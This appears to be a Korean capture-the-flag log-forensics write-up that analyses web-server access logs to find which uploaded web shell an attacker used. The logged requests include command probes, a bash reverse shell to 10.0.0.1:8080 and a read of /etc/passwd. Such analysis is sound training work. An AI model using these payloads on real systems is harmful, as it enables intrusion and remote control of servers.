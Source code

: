 ```log
172.17.0.1 - - [02/Jun/2020:09:56:08 +0000] "GET /uploads/memo.php?c=ls HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:56:10 +0000] "GET /uploads/memo.php?c=id HTTP/1.1" 404 489 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:56:15 +0000] "GET /uploads/admin.php?c=id HTTP/1.1" 404 489 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:56:32 +0000] "GET /uploads/images.php?c=whoami HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:57:04 +0000] "GET /uploads/apple.php?c=ls%20-al HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:57:17 +0000] "GET /uploads/session.php?cmd=echo%20%27test%27 HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:57:25 +0000] "GET /uploads/webshell.php?command=echo%20%27test%27 HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:57:33 +0000] "GET /uploads/sh.php?cc=echo%20%27test%27 HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:57:58 +0000] "GET /uploads/sh.php?cc=bash%20-i%20%3E%26%20/dev/tcp/10.0.0.1/8080%200%3E%261 HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:58:03 +0000] "GET /uploads/cmd.php?cc=bash%20-i%20%3E%26%20/dev/tcp/10.0.0.1/8080%200%3E%261 HTTP/1.1" 404 489 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:58:06 +0000] "GET /uploads/ws.php?cc=bash%20-i%20%3E%26%20/dev/tcp/10.0.0.1/8080%200%3E%261 HTTP/1.1" 404 489 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
172.17.0.1 - - [02/Jun/2020:09:58:39 +0000] "GET /uploads/webshell.php?f=file_get_contents&a=/etc/passwd HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

로그 하단을 확인하면 `uploads/`디렉토리를 통해 여러 쉘 접근을 진행하는 것을 확인할 수 있다.

하지만 level 3, 4를 통해서 등록된 웹 쉘의 이름이 `images.php`인 것을 알 수 있으므로 해당 경로를 통해 입력한 명령어를 제출하면 FLAG를 획득할 수 있다.